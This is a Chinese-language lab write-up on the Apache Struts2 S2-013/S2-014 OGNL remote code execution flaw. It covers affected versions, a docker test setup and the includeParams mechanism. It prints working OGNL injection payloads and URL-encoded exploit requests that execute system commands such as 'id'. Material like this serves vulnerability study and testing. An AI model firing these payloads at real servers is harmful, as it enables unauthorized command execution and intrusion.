

S2-013/S2-014 远程代码执行漏洞¶
影响版本: 2.0.0 - 2.3.14.1
漏洞详情:
测试环境搭建¶
docker compose build
docker compose up -d
原理与测试¶
Struts2 标签中 <s:a> 和 <s:url> 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：
- none - 链接不包含请求的任意参数值（默认）
- get - 链接只包含 GET 请求中的参数和其值
- all - 链接包含 GET 和 POST 所有参数和其值
<s:a>用来显示一个超链接，当includeParams=all的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞。
任意命令执行POC：
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}
// 或
${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
如：http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D

S2-014 是对 S2-013 修复的加强，在 S2-013 修复的代码中忽略了 ${ognl_exp} OGNL 表达式执行的方式，因此 S2-014 是对其的补丁加强。
http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D